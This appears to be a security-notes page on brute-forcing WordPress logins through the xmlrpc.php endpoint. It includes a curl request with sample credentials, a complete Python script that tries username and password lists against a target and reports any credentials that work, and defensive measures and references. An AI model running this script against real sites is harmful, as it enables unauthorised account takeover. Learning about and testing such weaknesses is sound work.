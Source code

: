# Brute Force

### Brute Force via xmlrpc.php

- xmlrpc.php is a WordPress file that allows external programs or apps to interact with a site remotely, such as publishing posts, managing comments, or performing administrative actions. It exists mainly for backward compatibility and remote management, but if left unrestricted, it increases the site’s attack surface and can be exploited by attackers.

- Attackers can send repeated login attempts directly to xmlrpc.php, often batching multiple passwords in a single request, which can bypass protections like rate limits or CAPTCHAs on the standard login page. The server responses clearly indicate whether the credentials are correct, making brute force attacks faster and harder to detect if proper security measures—like 2FA, rate limiting, or restricting access to XML-RPC—are not in place.

The request is below:

```
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params>
<param><value>admin</value></param><param><value>pass</value></param></params></methodCall>" http://examplewp.com/xmlrpc.php
```

Example:

![xmlrpc_bruteforce](./img/xmlrpc_brute_force.png)


This request can be turned into a brute force attack with a burp suite intruder, wpscan or a simple script. Here's a simple brute force script:


```python
#!/usr/bin/env python3
import requests
import argparse

parser = argparse.ArgumentParser(description="XML-RPC brute force test (lab only)")
parser.add_argument("-u", "--url", required=True, help="Target WordPress xmlrpc.php URL")
parser.add_argument("-U", "--userlist", required=True, help="File containing usernames")
parser.add_argument("-P", "--passlist", required=True, help="File containing passwords")
args = parser.parse_args()

with open(args.userlist, "r") as f:
    users = [line.strip() for line in f if line.strip()]

with open(args.passlist, "r") as f:
    passwords = [line.strip() for line in f if line.strip()]

if args.url[-3:] != "php":
    if args.url[-1] != "/":
        args.url = args.url + "/"
    args.url = args.url + "xmlrpc.php"

for username in users:
    for password in passwords:
        xml = f"""
        <methodCall>
            <methodName>wp.getUsersBlogs</methodName>
            <params>
                <param><value>{username}</value></param>
                <param><value>{password}</value></param>
            </params>
        </methodCall>
        """
        try:
            response = requests.post(args.url, data=xml, timeout=10)
            if "faultString" not in response.text:
                print(f"[SUCCESS] Username: {username} Password: {password}")
                
                break
            else:
                print(f"[FAIL] {username}:{password}")
        except requests.exceptions.RequestException as e:
            print(f"[ERROR] {username}:{password} - {e}")

```

And this script is more advanced >> https://github.com/aress31/xmlrpc-bruteforcer/

### Protection Against XML-RPC Brute Force
- To protect against brute force attacks via xmlrpc.php, site owners should either completely disable or restrict access to the endpoint if it is not needed, implement strong rate limiting to prevent repeated login attempts, enforce two-factor authentication for all admin accounts, monitor and block suspicious IPs showing repeated failures, and use security plugins or a WAF that specifically covers XML-RPC traffic, ensuring that automated requests cannot bypass standard login protections.

### Referances
- https://hackerone.com/reports/752073
  
- https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html

- https://logicbomb.medium.com/tale-of-3-vulnerabilities-to-account-takeover-44ba631a0304
